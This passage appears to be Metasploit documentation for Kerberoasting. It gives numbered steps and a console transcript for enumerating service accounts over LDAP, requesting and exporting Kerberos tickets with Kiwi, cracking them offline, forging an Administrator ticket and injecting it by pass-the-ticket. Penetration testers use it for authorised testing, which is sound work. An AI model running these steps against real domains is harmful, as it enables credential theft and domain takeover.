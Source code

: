 An alternative to the easier `get_user_spns` module above is the more manual process of running the LDAP query module to
find Kerberoastable accounts, requesting service tickets with Kiwi, converting the Kiwi ticket to a format usable by hashcat,
and cracking the hash.

1. Start msfconsole
2. Obtain SPNs associated with user accounts from your target
   1. Do: `use auxiliary/gather/ldap_query`
   2. Do: `set action ENUM_USER_SPNS_KERBEROAST`
   3. Run the module and note the discovered SPNs
3. From your Meterpreter session:
   1. Do: `load kiwi`
   2. Do: Request a kerberos ticket for SPN found by the ldap_query module: `kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000`
   3. Do: `kerberos_ticket_list`
4. Export service tickets using the kiwi extension
   1. Do: `kiwi_cmd kerberos::list /export`
5. Crack the encrypted password in the service ticket using tgsrepcrack.py (more info on this python script below)
   1. Do:  `python3 tgsrepcrack.py passlist.txt 1-40a10000-Administrator@HTTP\~testService-EXAMPLE.COM.kirbi`
6. Rewrite the service tickets using kerberoast.py (more info on this python script below)
   1. Do:  `python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500`
7. Finally inject the ticket back into RAM using Meterpreter's kiwi extension
   1. `meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi`

First an SPN needs to be found. This can be done in a number of ways - including using metasploit's
very own `auxiliary/gather/ldap_query` module:

```msf
msf > use auxiliary/gather/ldap_query
msf auxiliary(gather/ldap_query) > set RHOSTS 172.16.199.235
RHOSTS => 172.16.199.235
msf auxiliary(gather/ldap_query) > set BIND_DN DARWIN_CLAY
BIND_DN => DARWIN_CLAY
msf auxiliary(gather/ldap_query) > set BIND_PW N0tpassword!
BIND_PW => N0tpassword!
msf auxiliary(gather/ldap_query) > set action ENUM_USER_SPNS_KERBEROAST
action => ENUM_USER_SPNS_KERBEROAST
msf auxiliary(gather/ldap_query) > run
[*] Running module against 172.16.199.235

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.16.199.235:389 Getting root DSE
dn:
namingcontexts: DC=example,DC=com
namingcontexts: CN=Configuration,DC=example,DC=com
namingcontexts: CN=Schema,CN=Configuration,DC=example,DC=com

...

======================================================================

 Name                  Attributes
 ----                  ----------
 cn                    BERYL_SAVAGE
 samaccountname        BERYL_SAVAGE
 serviceprincipalname  CIFS/OGCWLPT1000000

CN=CAITLIN_CAMPBELL OU=Devices OU=FIN OU=Tier 1 DC=example DC=com
=================================================================

```